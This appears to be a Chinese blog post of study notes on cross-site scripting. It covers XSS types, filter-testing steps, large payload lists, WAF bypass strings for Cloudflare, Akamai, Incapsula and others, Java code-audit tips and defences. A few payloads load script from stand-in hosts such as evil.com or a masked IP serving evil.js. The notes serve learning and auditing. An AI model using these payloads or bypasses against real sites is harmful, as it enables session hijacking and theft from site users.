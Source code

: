 # XSS漏洞


> 由于时间和篇幅，只做浅析，往后时间充裕了再细细研究



## 简介

XSS（cross site scripting）跨站脚本为了不与网页中层叠样式表（css）混淆，故命名为xss。黑客将恶意代码嵌入网页中，当客户网文网页的时候，网页中的脚本会自动执行，从而达成黑客攻击的目的。



## 分类

### 1.反射型xss

非持久化，一般需要欺骗客户去点击构造好的链接才能触发代码。



### 2.存储型XSS

他会存储到数据库中，这种xss漏洞危害极大，因为它可以长久的保存在网页中，每个浏览过此网页的用户都会中招，很多xss蠕虫的爆发都是基于持久型xss，一般在留言板，评论区类位置容易出现此漏洞。但存储型XSS不用考虑绕过浏览器的过滤问题，屏蔽性也要好很多。

![存储型XSS攻击流程](https://image.geoer.cn/img/image-20220118223432836.png)



### 3.DOM型XSS

全称Document Object Model，使用DOM可以使程序和脚本能够动态访问更新文档的内容，结构及样式。
DOM型XSS是一种特殊类型的反射型XSS，基于DOM文档对象模型的一种漏洞。







## 挖掘

**XSS可以插在哪里？** 

用户输入作为script标签内容

```java
//<script>标签：script是最有直接的xss攻击载荷，脚本标记可以应用外部的js代码，或者将脚本插入网页之中。

<script>alert("hhh")</script>

<script src="http://1.1.1.1/a.js"></script>
```



用户输入作为HTML注释内容



用户输入作为HTML标签的属性名



用户输入作为HTML标签的属性值

```javascript
//<img >标签：

<img src="2" onerror=alert('hhh')>
<img src="2" onerror=alert(/hhh/)>
<img src="javascript:alert("XSS");">
<img dynsrc="javascript:alert('XSS')">
<img lowsrc="javascript:alert('XSS')">
　　
    
//<table>标签：
<table background="javascript::alert('hhh')">

    
//<iframe>标签：<iframe>标签允许另一个HTML网页的嵌入到父页面。IFrame可以包含JavaScript，但是，请注意，由于浏览器的内容安全策略（CSP），iFrame中的JavaScript无法访问父页面的DOM。然而，IFrame仍然是非常有效的解除网络钓鱼攻击的手段。

<iframe src=”http://evil.com/xss.html”>
```



用户输入作为HTML标签的名字



直接插入到CSS里　





### 测试思路

下面让我们来看一下XSS绕过的测试流程。

现实中，大多数的场所是用的黑名单来做XSS过滤器的，有三种方式绕过黑名单的测试：

1.暴力测试（输入大量的payload，看返回结果）
2.根据正则推算
3.利用浏览器bug
初步测试

（1）尝试插入比较正常的HTML标签，例如：`<a>、<b>、<i>、<u>`等，来看一下返回页面的情况是怎样的，是否被HTML编码了，或者标签被过滤了。

（2）尝试插入不闭合的标签，例如：<a、<b、i>、u>、<img等，然后看一下返回响应，是否对开放的标签也有过滤。

（3）然后测试几种常见的XSS向量：

```
<script>alert(1)</script><script>prompt(1)</script><script>confirm(1)</script>......看返回响应，是过滤的全部，还是只过滤了部分，是否还留下了alert、prompt、confirm等字符，再尝试大小写的组合：
<scRiPt>alert(1);</scrIPt>

```



（4）如果过滤器仅仅是把`<script>`和`</script>`标签过滤掉，那么可以用双写的方式来绕过：

```bash
<scr<script>ipt>alert(1)</scr<script>ipt>
```

这样当<script>标签被过滤掉后，剩下的组合起来刚好形成一个完整的向量。

（5）用<ahref标签来测试，看返回响应

```bash
<ahref="http://www.baidu.com">click</a>

```



看看<a标签是否被过滤，href是否被过滤，href里的数据是否被过滤了。如果没有数据被过滤，插入javascript伪协议看看：

```bash
<ahref="javascript:alert(1)">click</a>
```

看是否返回错误，javascript的整个协议内容是否都被过滤掉，还是只过滤了javascript字符。

继续测试事件触发执行javascript：

```bash
<ahref=xonmouseover=alert(1)>ClickHere</a>

```

看onmouseover事件是否被过滤。

测试一个无效的事件，看看他的过滤规则：

```bash
<ahref=xonclimbatree=alert(1)>ClickHere</a>

```

是完整的返回了呢，还是跟onmouseover一样被干掉了。如果是完整的返回的话，那么就意味着，做了事件的黑名单，但是在HTML5中，有超过150种的方式来执行javascript代码的事件，我们可以选用别的事件。测试一个很少见的事件：

```bash
<bodyonhashchange=alert(1)><ahref=#>click</a>

```

onhashchange事件在当前URL的锚部分(以'#'号为开始)发生改变时触发。





### 常用Payload

```bash
#Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

#Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

#Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)


#HTML5中的一些XSS
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // 当手指触摸屏幕时触发
<body ontouchend=alert(1)>   // 当手指从屏幕中移走时触发
<body ontouchmove=alert(1)>  // 当手指在屏幕中拖动时触发XSS使用Script标签（外部Payload）
```







scirpt标签用于定义客户端脚本，比如JavaScript

```

<script>alert(1);</script>

<script>alert("xss");</script>
```



img标签定义HTML页面中的图像

```
<img src=1onerror=alert(1);>

<img src=1onerror=alert("xss");>
```



input标签规定了用户可以在其中输入数据的输入字段

```
<input onfocus=alert(1);>
 onfocus="alert(1);"autofocus>
```


details标签通过提供用户开启关闭的交互式控件，规定了用户可见的或者隐藏的需求的补充细节。ontoggle事件规定了在用户打开或关闭<details>元素时触发：

```
<details ontoggle=alert(1);>

<details openontoggle=alert(1);>
```




svg标签用来在HTML页面中直接嵌入SVG文件的代码

```
<svg onload=alert(1);>
```




select标签用来创建下拉列表

```
<select onfocus=alert(1)></select>

<select onfocus=alert(1)autofocus>
```




iframe标签创建包含另外一个文档的内联框架

```
<iframe onload=alert(1);></iframe>
```




video标签定义视频，比如电影片段或其他视频流。

```
<video><source onerror=alert(1)>
```




audio标签定义声音，比如音乐或其他音频流。

```
<audio src=xonerror=alert(1);>
```




body标签定义文档的主体

```
<body onload=alert(1);>
```



onscroll事件在元素滚动条在滚动时触发。我们可以利用换行符以及autofocus，当用户滑动滚动条的时候自动触发，无需用户去点击触发：

```
<body
onscroll=alert(1);><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><inputautofocus>
```




textarea标签定义一个多行的文本输入控件。

```
<textarea onfocus=alert(1);autofocus>
```



 

marquee标签

```
<marquee onstart=alert(1)></marquee>//Chrome不行，火狐和IE都可以

```

isindex标签

```
<isindex type=image src=1onerror=alert(1)>//仅限于IE
```

利用link远程包含JavaScript文件

<link>标签定义文档与外部资源的关系。在无CSP的情况下才可以使用：

```
<link rel=import href="http://47.xxx.xxx.72/evil.js">
```




利用JavaScript伪协议

javascript:这个特殊的协议类型声明了URL的主体是任意的javascript代码，它由javascript的解释器运行。当浏览器装载了这样的URL时，并不会转向某个URL，而是执行这个URL中包含的javascript代码，并把最后一条javascript语句的字符串值作为新文档的内容显示出来。

a标签

```
<a href="javascript:alert(1);">xss</a>
```



iframe标签

```
<iframe src=javascript:alert(1);></iframe>
```

img标签

```
<img src=xonerror=alert(1)>

<img src=javascript:alert(1)>//IE7以下
```

form标签

```
<form action="Javascript:alert(1)"><input type=submit>
```







### 常见编码

**1.js编码**
js提供了四种字符编码的策略
三位八进制数字，如果个数不够，在前面补0，例如"e"的编码为"\145"
两位十六进制数字，如果个数不够，在前面补0，例如"e"的编码为"\x65"
四位十六进制数字，如果个数不够，在前面补0，例如"e"的编码为"\u0065"
对于一些控制字符，使用特殊的C类型的转义风格(例如\n和\r)

**2.html实体编码**
命名实体：以&开头，以分号结尾
字符编码：十进制，十六进制ASCII码或者Unicode字符编码

**2.url编码**

使用XSS编码测试时需要考虑html渲染的顺序，针对多种编码的组合时，要选择合适的编码进行测试





### 常见bypass

> 可以参考法克论坛的pdf

#### 过滤的绕过

```javascript
大小写绕过
	- 绕过标签黑名单
	- 用代码评估绕过单词黑名单
	- 不完整的HTML标签绕过
	- 绕过字符串的引号
	- 绕过Script标签的引号
	- 在mousedown事件中绕过引号
	- 绕过点（.）的限制
	- 绕过字符串的括号
	- 绕过括号和分号
	- 绕过 onxxxx= 黑名单
	- 绕过空格过滤
	- Bypass email filter
	- 绕过文档黑名单
	- 在字符串中使用javascript绕过
	- 使用其他方式绕过重定向限制
	- 使用其他方式执行alert
	- 不使用任何东西绕过 ">"
	- 使用其他字符绕过 ";"
	- 使用HTML编码绕过
	- 使用Katana绕过
	- 使用Lontara绕过
	- 使用ECMAScript6绕过
	- 使用八进制编码绕过
	- 使用Unicode编码绕过
	- 使用UTF-7编码绕过
	- 使用UTF-8编码绕过
	- 使用UTF-16be编码绕过
	- 使用UTF-32编码绕过
	- 使用BOM（浏览器对象模型）绕过
	- 使用奇怪的编码绕过
```



#### 过狗

> 发现了个好资源，直接借鉴的，推荐去学学
>
> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Cloudflare XSS Bypasses

25st January 2021

```
<svg/onrandom=random onload=confirm(1)>
<video onnull=null onmouseover=confirm(1)>
```

21st April 2020

```
<svg/OnLoad="`${prompt``}`">
```

22nd August 2019

```
<svg/onload=%26nbsp;alert`bohdan`+
```

5th June 2019

```
1'"><img/src/onerror=.1|alert``>
```

3rd June 2019

```
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
```

Cloudflare XSS Bypass - 22nd March 2019 (by @RakeshMane10)

```
<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
```

Cloudflare XSS Bypass - 27th February 2018

```
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

Chrome Auditor - 9th August 2018

```
</script><svg><script>alert(1)-%26apos%3B
```

Live example by @brutelogic - [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?c1=alert(1)-%26apos%3B)

Incapsula WAF Bypass by [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)- 8th March 2018

```
anythinglr00</script><script>alert(document.domain)</script>uxldz

anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
```

Incapsula WAF Bypass by [@c0d3G33k](https://twitter.com/c0d3G33k) - 11th September 2018

```
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

Incapsula WAF Bypass by [@daveysec](https://twitter.com/daveysec/status/1126999990658670593) - 11th May 2019

```
<svg onload\r\n=$.globalEval("al"+"ert()");>
```

Akamai WAF Bypass by [@zseano](https://twitter.com/zseano) - 18th June 2018

```
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

Akamai WAF Bypass by [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480) - 28th October 2018

```
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```

WordFence WAF Bypass by [@brutelogic](https://twitter.com/brutelogic) - 12th September 2018

```
<a href=javas&#99;ript:alert(1)>
```

Fortiweb WAF Bypass by [@rezaduty](https://twitter.com/rezaduty) - 9th July 2019

```
\u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
```





### 练习平台

靶场：xss-labs





### 工具

- xss平台
- beef



## Java代码审计

一种审计策略：

1.收集输入、输出点

2.查看输入、输出点的上下文环境

3.判断Web应用是否对输入、输出环境做了防御工作





### XSS常见触发位置

**输入**在Java中常用`request.getParameter(param)`或`${param}`获取用户的输入信息；

**输出**主要表现为前端的渲染，我们可以定位前端中的一些常见的标识符来找到他们，然后根据后端逻辑来判断漏洞是否存在。

**1.JSP表达式**

`<%=变量%>`是`<%out.println(变量);%>`的简写方式，`<%=%>`用于将已声明的变量或表达式输出到外网页中

```jsp

```



**2.EL（表达式语言）**

是为了使jsp写起来更加简单。

例如：`<%=request.getParameter("username")%>`等价于`${param.username}`

```jsp
<c:out> 标签
    
<c:if> 标签
    
<c:forEach> 标签
```



**3.ModelAndView类的使用**

ModelAndView用来存储处理完成后的结果数据，以及显示该数据的视图，其前端JSP页面可以使用`${参数}`的方法来获取值



**4.ModelMap类的使用**

可以根据模型属性的具体类型自动生成模型属性的名称



**5.Model类的使用**





### 对于反射型XSS

白盒审计中，需要寻找带有参数的输出方法，然后对输出方法对输出内容回溯输入参数





### 对于存储型XSS

要统一寻找“输出点”和“输出点”。由于输出点与输入点可能不在一个业务流中，可以考虑以下方法提高效率：

1.黑白盒结合

2.通过功能、接口名、表名、字段名等角度做搜索



寻找输入点

审计输入点代码

对输出点进行审计





### 对于Dom型XSS

dom型xss不需要与服务器交互，它只发生在客户端处理数据阶段。

粗略说，Dom型xss的成因是不可控的危险数据，未经过滤传入存在缺陷的js代码处理。



**Dom型XSS常见的输入输出点：**

| 输入点            | 输出点             |
| ----------------- | ------------------ |
| document.URL      | eval               |
| document.location | document.write     |
| document.referer  | document.InnerHTML |
| document.form     | document.OuterHTML |
|                   |                    |







### 关键字

```bash
<%=
${
<c:out
<c:if
<c:forEach
ModelAndView
ModelMap
Model
request.getParameter
request.setAttibute
request.getWriter().print()
request.getWriter().writer()

```









## 漏洞防御

- 对与后端有交互的位置执行参数的输入过滤（课通过Java的filter、Spring参数校验注解来实现。比如编写全局过滤器实现拦截并在web.xml中进行配置）
- 对与后端有交互的位置执行参数的输出转义/html编码等
- 开启JS开发框架的XSS防护功能
- 设置HttpOnly（严格的说，HttpOnly对防御XSS不起作用，主要是为了解决xss漏洞后续的cookie劫持攻击，可以阻止客户端脚本访问cookie）
- 采用OWASP企业安全程序接口(ESAPI)实现，类似内容还有谷歌的xssProtect等





## 参考

https://www.cnblogs.com/xyz315/p/14850359.html

https://cloud.tencent.com/developer/article/1474865

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-wrappers-javascript-and-data-uri





未完待续...


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/xss%E6%BC%8F%E6%B4%9E/  

